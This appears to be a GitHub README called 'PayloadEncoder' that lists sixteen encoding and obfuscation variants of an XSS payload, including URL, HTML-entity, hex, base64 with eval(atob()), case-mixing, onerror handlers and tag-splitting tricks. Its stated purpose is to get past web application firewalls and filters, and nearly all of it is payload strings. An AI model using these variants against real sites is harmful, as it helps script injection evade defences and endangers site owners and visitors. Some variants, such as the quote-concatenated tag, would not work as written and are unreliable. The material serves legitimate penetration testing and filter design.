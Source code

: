 # PayloadEncoder
Payload Encoder
When trying to bypass Web Application Firewalls (WAFs) or filters, encoding and obfuscation techniques can help evade basic detection. Below are various methods to encode or obfuscate the payload "<script>alert(1)</script>":
1. URL Encoding

    Full URL encoding:

    html

%3Cscript%3Ealert%281%29%3C%2Fscript%3E

Partial URL encoding (only encode specific characters):

html

    <script>alert&#40;1&#41;</script>

2. HTML Entity Encoding

    Using HTML entities for all characters:

    html

&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;

Mixed HTML entities:

html

    &#x3C;script&#x3E;alert(&#49;)&#x3C;/script&#x3E;

3. Hexadecimal Encoding

    Using hexadecimal escape sequences:

    html

    \x3Cscript\x3Ealert\x281\x29\x3C/script\x3E

4. Base64 Encoding

    Encoding the entire payload:

    html

PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

Decoding in an HTML context:

html

    <script>eval(atob('YWxlcnQoMSk='))</script>

5. Double URL Encoding

    Encoding the URL-encoded version again:

    html

    %253Cscript%253Ealert%25281%2529%253C%252Fscript%253E

6. Hexadecimal Representation of Characters

    Using hex representation:

    html

    \u003Cscript\u003Ealert(1)\u003C\u002Fscript\u003E

7. Octal Encoding

    Using octal representation:

    html

    \074script\076alert(1)\074\057script\076

8. JavaScript Escape Sequences

    Escaping characters within JavaScript:

    html

    <script>\x61\x6c\x65\x72\x74\x28\x31\x29</script>

9. Mixed Encoding

    Combining different encoding methods:

    html

    &#x3C;&#x73;&#99;r&#105;p&#x74;&#x3E;&#97;&#x6C;&#x65;&#x72;&#116;&#x28;&#49;&#x29;&#x3C;&#x2F;&#115;&#x63;&#x72;&#105;&#112;&#116;&#x3E;

10. Non-Printable Characters

    Injecting non-printable characters:

    html

    <scri%00pt>alert(1)</scri%00pt>

11. Breaking Up the Script Tag

    Fragmenting the <script> tag:

    html

    <scr"+"ipt>alert(1)</scr"+"ipt>

12. Using Backticks

    Using backticks in place of single or double quotes:

    html

    <script>alert(`1`)</script>

13. Expression and Eval

    Using eval or expression in inline JavaScript:

    html

    <img src=x onerror="eval('alert(1)')">

14. Lowercase and Uppercase

    Altering case:

    html

    <sCriPt>alert(1)</sCriPt>

15. Polyglot Payload

    Crafting a payload that can be interpreted differently depending on the context:

    html

    <scri<script>pt>alert(1)</scri</script>pt>

16. Inline Comments

    Adding inline comments to break up the script:

    html

<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
